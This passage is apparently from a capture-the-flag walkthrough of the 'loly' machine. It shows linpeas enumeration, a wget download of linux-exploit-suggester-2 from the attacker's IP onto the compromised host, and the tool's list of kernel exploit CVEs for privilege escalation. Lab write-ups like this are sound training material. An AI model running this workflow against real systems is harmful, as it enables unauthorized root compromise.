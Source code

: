 
Execute `linpeas`.
```bash
loly@ubuntu:/tmp$ sh linpeas.sh 
sh linpeas.sh
...
OS: Linux version 4.4.0-31-generic (buildd@lgw01-16) (gcc version 5.3.1 20160413 (Ubuntu 5.3.1-14ubuntu2.1) ) #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016q
...
```

> The target uses an outdated kernel and `gcc` is installed. So we probably have to compile a kernel exploit and execute it on the target to get `root`.
{: .prompt-info }

Lets use the exploit suggester: `https://github.com/jondonas/linux-exploit-suggester-2`  
We upload the suggester the same way we uploaded `linpeas`.  
```bash
loly@ubuntu:/tmp$ wget 192.168.45.186/linux-exploit-suggester-2.pl
wget 192.168.45.186/linux-exploit-suggester-2.pl
--2023-08-14 11:32:30--  http://192.168.45.186/linux-exploit-suggester-2.pl
Connecting to 192.168.45.186:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24292 (24K) [text/x-perl]
Saving to: ‘linux-exploit-suggester-2.pl’

linux-exploit-sugge 100%[===================>]  23.72K  --.-KB/s    in 0.03s   

2023-08-14 11:32:30 (713 KB/s) - ‘linux-exploit-suggester-2.pl’ saved [24292/24292]
```

Now lets see what exploit might be suitable.
```bash
loly@ubuntu:/tmp$ perl linux-exploit-suggester-2.pl
perl linux-exploit-suggester-2.pl

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 4.4.0
  Searching 72 exploits...

  Possible Exploits
  [1] af_packet
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010
```
